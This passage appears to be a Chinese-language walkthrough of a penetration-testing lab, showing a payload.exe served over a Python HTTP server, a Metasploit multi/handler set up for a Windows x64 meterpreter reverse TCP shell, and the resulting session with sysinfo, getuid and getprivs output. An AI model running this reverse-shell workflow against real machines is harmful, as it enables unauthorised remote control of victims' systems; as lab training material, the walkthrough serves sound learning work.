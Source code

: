 ```
root@attackdefense:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.16.244 - - [05/Oct/2022 16:28:20] "GET /payload.exe HTTP/1.1" 200 -
10.0.16.244 - - [05/Oct/2022 16:28:20] "GET /payload.exe HTTP/1.1" 200 -

```

在Kali机器上启动msfconsole multi/handler模块：

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.16.2
LHOST => 10.10.16.2
msf5 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.2:1234
```

运行目标Windows桌面上的payload，获得meterpreter会话：

```
[*] Sending stage (201283 bytes) to 10.0.16.244
[*] Meterpreter session 1 opened (10.10.16.2:1234 -> 10.0.16.244:49783) at 2022-10-05 16:35:05 +0530

meterpreter > sysinfo
Computer        : PRIV-ESC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: PRIV-ESC\student
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege

```

